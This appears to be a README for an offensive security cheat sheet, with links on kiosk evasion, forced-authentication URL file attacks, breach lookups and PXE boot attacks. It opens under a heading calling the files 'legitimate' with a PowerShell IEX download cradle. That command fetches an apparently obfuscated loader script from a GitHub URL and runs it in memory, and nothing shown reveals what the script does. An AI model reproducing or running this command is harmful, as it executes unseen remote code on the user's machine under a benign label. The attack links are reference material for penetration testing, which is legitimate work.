 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

# CYBER CHEAT SHEET

### DIVERS
---
**Ressources :**
- https://viperone.gitbook.io/pentest-everything
- https://book.hacktricks.xyz/
- https://atomicredteam.io/atomics/

**Kiosk evasion** : file access from browser or openfile dialogbox
```
file://c:/windows/system32/calc.exe
```

**Recent user activity**
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Recent
```

**Url file attack**
- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
- https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack

### OSINT - PASSWORD
---

- https://haveibeenpwned.com/
- https://breachdirectory.org/

### RECONNAISSANCE - ENUMERATION
---

Todo

### MEMCM - MDT - PXE
*******

Ressources :

- https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
- https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images/
- https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/
- https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
- https://www.acceis.fr/sattaquer-aux-images-pxe/
- https://github.com/wavestone-cdt/powerpxe
- https://tryhackme.com/r/room/breachingad
